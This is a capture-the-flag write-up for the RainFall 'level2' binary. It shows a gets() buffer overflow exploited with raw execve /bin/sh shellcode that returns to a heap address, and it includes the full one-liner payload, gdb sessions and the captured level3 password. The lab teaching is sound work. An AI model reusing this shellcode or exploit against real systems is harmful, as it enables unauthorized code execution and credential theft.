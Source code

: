 # Walkthrough

## Solution

```
level2@RainFall:~$ (python -c "print '\x90' * 35 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x08\xa0\x04\x08'" ; cat) | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```  
## Explanation

### Execution

```
level2@RainFall:~$ ./level2 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info function
0x080484d4  p
0x0804853f  main
```  

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

We run level2 with gdb.  
The main calls the p function.  
p uses the gets function, we can therefore use a buffer overflow.  
However, there is no syscall to /bin/sh to allow us to access a shell.  
-> We have to use a shellcode to spawn a shell.  

#### Find the offset

We segfault at 80 we will therefore have something like:  
> print '\x90' * x + 'shellcode' + buffer_address (\x90 = NOP code)  
The shellcode we found has a length of 45, we will therefore print 35 A (80 - 45).  

For the address, we cannot use an address located on the stack, because of this check:
```
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```  
If the address starts with 0xb, it  will exit the program.  
https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6  

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave                         // put a breakpoint here, to get return address of strdup
   0x0804854b <+12>:	ret    
End of assembler dump.
(gdb) break *0x0804854a
Breakpoint 1 at 0x804854a
(gdb) run
Starting program: /home/user/level2/level2 
hello
hello

Breakpoint 1, 0x0804854a in main ()
(gdb) i r $eax
eax            0x804a008	134520840
```  
--> return address of strdup is 0x804a008,  
-> We will use the return address of strdup, which is located on the heap to inject the shellcode.  

Shellcode from: https://beta.hackndo.com/buffer-overflow/  

### Final command

```
--> level2@RainFall:~$ (python -c "print '\x90' * 35 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\x08\xa0\x04\x08'" ; cat) | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


<!-- __builtin_return_address
https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html -->